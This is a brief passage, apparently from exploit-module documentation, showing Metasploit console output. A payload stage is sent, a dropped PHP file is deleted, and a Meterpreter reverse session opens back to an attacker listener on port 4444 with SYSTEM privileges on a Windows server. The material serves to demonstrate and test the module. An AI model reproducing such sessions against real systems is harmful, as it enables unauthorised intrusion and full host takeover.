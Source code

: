 ```
[*] Sending stage (200774 bytes) to 192.168.201.36
[+] Deleted zyrkwyinvjnzr.php
[*] Meterpreter session 5 opened (192.168.201.10:4444 -> 192.168.201.36:54882) at 2023-03-13 16:19:52 +0000
[*] Command Stager progress - 100.00% done (155/155 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer        : WIN-HHRQENPDSRS
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

## Limitations
No limitations identified.
